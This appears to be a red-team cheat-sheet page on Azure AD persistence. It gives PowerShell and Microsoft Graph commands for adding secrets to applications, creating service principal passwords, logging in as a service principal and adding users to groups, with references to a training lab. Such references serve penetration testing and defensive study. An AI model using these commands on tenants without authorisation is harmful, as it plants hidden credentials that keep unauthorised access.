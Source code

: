 # Azure AD - Persistence

## Add Secrets to Application

* Add secrets with [lutzenfried/OffensiveCloud/Add-AzADAppSecret.ps1](https://github.com/lutzenfried/OffensiveCloud/blob/main/Azure/Tools/Add-AzADAppSecret.ps1)
    ```powershell
    PS > . C:\Tools\Add-AzADAppSecret.ps1
    PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose
    ```

* Use secrets to authenticate as Service Principal
    ```ps1
    PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
    PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
    PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
    ```


## Add Service Principal

* Generate a new service principal password/secret
    ```ps1
    Import-Module Microsoft.Graph.Applications
    Connect-MgGraph 
    $servicePrincipalId = "<service-principal-id>"

    $params = @{
        passwordCredential = @{
            displayName = "NewCreds"
        }
    }
    Add-MgServicePrincipalPassword -ServicePrincipalId $servicePrincipalId -BodyParameter $params
    ```


## Add User to Group

```ps1
Add-AzureADGroupMember -ObjectId <group_id> -RefObjectId <user_id> -Verbose
```


## References

* [Maintaining Azure Persistence via automation accounts - Karl Fosaaen - September 12, 2019](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Microsoft Graph - servicePrincipal: addPassword](https://learn.microsoft.com/en-us/graph/api/serviceprincipal-addpassword?view=graph-rest-1.0&tabs=powershell)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)